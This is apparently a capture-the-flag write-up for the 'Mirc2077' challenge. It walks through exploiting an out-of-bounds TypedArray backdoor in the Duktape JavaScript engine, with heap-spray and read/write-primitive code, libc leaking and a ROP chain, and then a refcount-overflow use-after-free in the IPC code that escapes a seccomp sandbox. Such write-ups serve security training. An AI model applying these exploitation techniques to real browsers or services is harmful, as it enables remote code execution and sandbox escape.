

# Mirc2077
## Intro
TL;DR: The final exploit is in exploit/pwn64.js and is built dynamically from exploit/exploit.py.

  
```
One of the rogue androids are hanging out in his private IRC, dealing warez and 0-days. He takes his OPSEC seriously and is behind 9000 proxies. An agent of ours managed to add a backdoor to the repository of his favourite IRC-client. Unfortunately we are scraping up whats left of him from a burning barrel.<br>We recovered this USB-stick, use whatever is on it to pwn and reveal the androids real IP-address. We'll do the rest ;)
```
``` bash
$ checksec --file ./mirc2077 
[*] './mirc2077'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
mirc2077 is meant to be a bite-size 'browser-pwnable'. The player can send a link which will be 'clicked' by the android. 

If the link contains Javascript, it will be interpreted by Duktape (https://duktape.org). To make this interesting, an OOB-RW bug was introduced to the TypedArray object via a custom built-in.

However, the JS-interpretation occurs in a heavily seccomp-sandboxed child-process. For the first flag, it's enough to get code-exec in the JS-interpretation-process but the end goal is to escape it by exploiting a bug in the IPC of the main-process.  


## Backdoor / Bug analysis
This is the mentioned 'backdoor' added to the IRC-clients repository.
``` diff
+DUK_INTERNAL duk_ret_t duk_bi_typedarray_sect(duk_hthread *thr) {
+	duk_hbufobj *h_this;
+	h_this = duk__require_bufobj_this(thr);
+	DUK_ASSERT(h_this != NULL);
+	DUK_HBUFOBJ_ASSERT_VALID(h_this);
+
+	if (h_this->buf == NULL) {
+		DUK_DDD(DUK_DDDPRINT("source neutered, skip copy"));
+		return 0;
+	}
+	h_this->length = 31337;
+	duk_hbuffer * buf = h_this->buf;
+	buf->size = 31337;
+	return 0;
+}
```
A built-in named `sect` was added to the TypedArray object. Calling this function will set the TypedArray and it's backing-buffer size to 31337. However, it will not reallocate the backing-buffer.  

Therefore, if you allocate a TypedArray of a size less than 31337 and you use the `sect` built-in you'll be able to read and write out-of-bounds in the heap-memory.

With this out-of-bounds read/write primitive we can then find a suitable object in the heap to corrupt and create a fully controlled read/write-what-anywhere primitive.

## Code-exec in the sandboxed JS-interpreter process
First we do some minor spraying with small TypedArrays where we trigger the vuln to create the OOB-RW-primitive. After that, some larger potential targets where we set magic values to search for.
``` js
/* defrag the heap */
for(i = 0; i < pwn.defrag_heap_rounds; i++) {
  f = new Float64Array(4);f[0] = 1111.4444;f[1] = 2222.5555;
  pad.push(f);
}

/* spray duk_hbufobj and duk_hbuffer objects via Float64Arrays*/
for(i = 0; i < pwn.spray_rounds; i++) {
  var p = new Float64Array(4);p[0]=1337.0;p[1]=4445.0;
  p.sect(); /* trigger vuln */
  spray.push(p);
  var q = new Float64Array(200);q[0]=6661.6661;q[1]=1116.1116;
  targets.push(q);
}
```
There are multiple ways of doing this but I chose to corrupt a `duk_hbuffer` object since these are conveniently created and used in relation to TypedArrays.

Each `duk_hbuffer` object is pointed to by a `duk_hbufobj`
``` c
struct duk_hbufobj {
  duk_hobject obj;
  duk_hbuffer *buf; /* points to duk_hbuffer */
  duk_hobject *buf_prop;
  duk_uint_t offset;       /* byte offset to buf */
  duk_uint_t length;       /* byte index limit for element access, exclusive */
  duk_uint8_t shift;       /* element size shift:
                            *   0 = u8/i8
                            *   1 = u16/i16
                            *   2 = u32/i32/float
                            *   3 = double
                            */
  duk_uint8_t elem_type;   /* element type */
  duk_uint8_t is_typedarray;
  ...
```

How the `duk_hbuffer` stores it's data is defined by it's headers magic value. If it's defined as external, then the data will be stored in a buffer pointed to by `duk_hbuffer->curr_alloc`. Otherwise, the data is kept after the structure.

In the case of f.ex. `Float64Array(200)` a non-external `duk_hbuffer` is created but we want it to be external as the goal is to be able to control the `duk_hbuffer->curr_alloc` pointer.
``` c
struct duk_hbuffer {
  duk_heaphdr hdr;
  duk_size_t size;
  void *curr_alloc; 
  ...
```

To create a fully controlled read-write-what-anywhere primitive the strategy is to:
* Spray TypedArrays with magic-values in the data
* Find the `duk_hbuffer` of the TypedArray by it's magic values in heap-memory
* Corrupt the magic values to something specific so we can detect the change
* Cycle through the TypedArray objects and find which one points to our controlled `duk_hbuffer` by detecting the change
* Corrupt the `duk_hbuffer->hdr->h_flag` so it's magic value reflects an external duk_hbuffer object

As the `duk_hbuffer` is now external, we can corrupt `duk_hbuffer->curr_alloc` to gain the controlled-read/write anywhere primitive.

With full R/W-access to the memoryspace of the process, we can now work towards code-exec.

The next steps for code-exec are
* Leak a pointer to the mirc2077 binary and calculate the baseaddress of it
* Using the baseaddress of mirc2077, read one of it's .got entries to leak an offset into libc.

To understand the next part, one should know that all duktape objects starts with a `duk_hobject` that contains a `duk_heaphdr`.
``` c
struct duk_heaphdr {
  duk_uint32_t h_flags;
  duk_size_t h_refcount;
  duk_heaphdr *h_next;
  duk_heaphdr *h_prev;
  ...
```
The `duk_heaphdr` contains a linked-list that can be used to traverse all the duktape objects. We can leak the `h_next` and `h_prev` pointers from f.ex. our duk_hbuffer object. These can then be used to find objects of interest via their `duk_heaphdr->h_flags` magic value.

One of these objects of interest are the `duk_hnatfunc` one. `duk_hnatfunc->func` will contain a pointer to the mirc2007 binary. In my case, it would be the performance.now() native function.
```c
struct duk_hnatfunc {
  duk_hobject obj;
  duk_c_function func; /* mirc2077 leak */
  duk_int16_t nargs;
  duk_int16_t magic;
  ...
```

The following JS code will find the `performance.now()` native function object and from that, leak libc and rebase the ROP-chain that is used later on.
```js
this.leak_libc = function(addr) {
  var elf_base = 0;
  addr = this.find_native_func(addr);
  if(addr)
    elf_base = this.find_elf(addr, max_search);
  if(elf_base)
  {
    this.elf = d2i(elf_base.asDouble());
    elf_base.assignAdd(elf_base, this.got_offset);
    this.libc = this.read64i(elf_base);
    this.libc.assignSub(this.libc, this.libc_offset);
    log("[+] Found libc base: " + this.libc);
    this.rebase();
    return this.libc;
  }
  return 0;
};
``` 

At this point, we could overwrite the `duk_hnatfunc->func` for RIP-control. However, controlling the arguments is not as easy due to how duktape passes the arguments via it's context-pointer.

Another option is to leak the `environ` pointer from libc. This points to the current stack of the process. Walk the stack for a target return-address and overwrite it with a ROP-chain. I chose `<duk_eval_raw+110> ` as it will be hit after interpreting the Javascript.

The ROP-chain is very simple. It will `mmap` an RWX page, `memcpy` the embedded shellcode there and jump to it while passing on a `shellcode_ctx` containing some addresses for the final payload.

## Sandbox constraints
To understand the sandbox-restrictions you can dump the seccomp rules with https://github.com/david942j/seccomp-tools
```c
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0e 0xc000003e  if (A != ARCH_X86_64) goto 0016
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0b 0xffffffff  if (A != 0xffffffff) goto 0016
 0005: 0x15 0x09 0x00 0x00000000  if (A == read) goto 0015
 0006: 0x15 0x08 0x00 0x00000001  if (A == write) goto 0015
 0007: 0x15 0x07 0x00 0x00000003  if (A == close) goto 0015
 0008: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0015
 0009: 0x15 0x05 0x00 0x00000008  if (A == lseek) goto 0015
 0010: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0015
 0011: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0015
 0012: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0015
 0013: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0015
 0014: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```
Thankfully we can mmap RWX-pages which we can use to pivot to shellcode.

## IPC communication
The main process will fork a child-process and apply seccomp to it to do the 'dangerous' JS-interpretation. It will pass two file-descriptors to the sandboxed-process. One is to the Log-functionality and the other is for the IPC-functionality.

After the JS-interpretation-process creation, the main-process will enter an `ipc_loop` which expects `ipc_msg` structures. The `ipc_loop` will process each `ipc_message`can call the function that maps to the `ipc_msg->id`.

To use the IPC, you would write the following structure to the IPC-fd and then read it back for the result.
``` c
struct ipc_msg {
 u8 magic[8]; // IRC_IPC\0
 u64 id;      // f.ex. IPC_JS_SUCCESS 0xac1d0001
 u64 debug;   // enable debug-mode
 u64 status;
 u64 result;
 u64 arg0;
 u64 arg1;
};
```

## IPC bug-analysis
The IPC between the main-process and the JS-interpreter-process is meant to support caching. It doesn't do a great job though. The basic functionality consist of
``` c
u64 ipc_cache_create_data(u64 id, u64 size) - Allocate cache data
u64 ipc_cache_set_data(u64 id) - Set cache data
u64 ipc_cache_get_data(u64 id) - Read cache data
u64 ipc_cache_create(u64 id, u64 size) - Create cache
u64 ipc_cache_dup(u64 id) - Duplicate existing cache
u32 ipc_cache_close(u64 id) - Close cache
```

The cache structures are as follows
``` c
struct cache {
  v0 *data_ptr;
  u8 refcount;
  u64 size;
};

struct cache_head {
  u64 id;
  struct cache *cache_ptr;
};
```
The `ipc_cache_dup` will create a new `cache_head` and assign it the `cache_ptr` of the requested cache-id to be duped. If successful, it will increase the refcount of the `cache`. The problem is that the refcount is kept as a byte and with no checks in place it can be easily be overflown through consecutive calls to `ipc_cache_dup`.

This by itself is bad but in conjunction with `ipc_cache_close` we can cause a use-after-free.

``` c
u32 ipc_cache_close(u64 id)
{
  struct cache_head *c = (struct cache_head*)ipc_cache_arr[id];
  if(c == NULL)
    return IPC_ERROR;

  if(c->cache_ptr != NULL) {
    c->cache_ptr->refcount--; 
    if(c->cache_ptr->refcount <= 0) {
      if(c->cache_ptr->data_ptr != NULL) {
        free(c->cache_ptr->data_ptr);
        c->cache_ptr->data_ptr = NULL;        
      }
      free(c->cache_ptr);
      c->cache_ptr = NULL;
      free(c);
      ipc_cache_arr[id] =  NULL;
    }
  }
```
If we call `ipc_cache_dup` enough for it to wrap-around to 1 and then call `ipc_cache_close` on one of the duped caches, the underlying `cache` will be released while we still retain references to it.

By reclaiming the `cache` memory we can control the `cache->data_ptr` which then becomes a `R/W-what-anywhere primitive` using `ipc_cache_get_data` and `ipc_cache_set_data`

## Flag #1 - HOW-2-IPC
Having code-exec in the JS-interpreter/render process is enough to get the first flag. We simply need to perform an IPC-call with the id `IPC_REQUEST_FLAG    0xac1d1337`. This will read ./flag and write it back. The flag can then be output via the `log-fd`.

## Flag #2 - Escape the Seccomp sandbox
The exploit process consist of:
* Create a cache and a cache_data for it
* Create three caches without data. We will use it later to reclaim the cache_ptr memory, as ipc_cache_create_data allows allocations of a controlled size
* Call ipc_cache_dup on the first cache_id enough for it to wrap around to 1
* Call ipc_cache_close on the first cache to trigger the UaF
* Create the cache_data for the other caches 2-4 to reclaim the cache_ptr memory with a data_ptr that points to the wanted target

Now we can overwrite whatever `cache->data_ptr` points to via `ipc_cache_set_data`.

No leak from the main-process is needed since the JS-interpreter is forked and the address-spaces have the same addresses.

In short, we can use the same trick we used to execute our ROP-chain, find a suitable target on the stack and overwrite it with a ropchain. In my case, the target was `<exec_js_renderer+010d>` which will be hit when the `ipc_loop` returns. 

The payload is simply a one_gadget / god_gadget from the libc.
## Moneyshot
  

# Creds
**b0bb** - for proof-reading and being a pwn-brother from another mother  
**je / OwariDa** - for the PIE-fixup script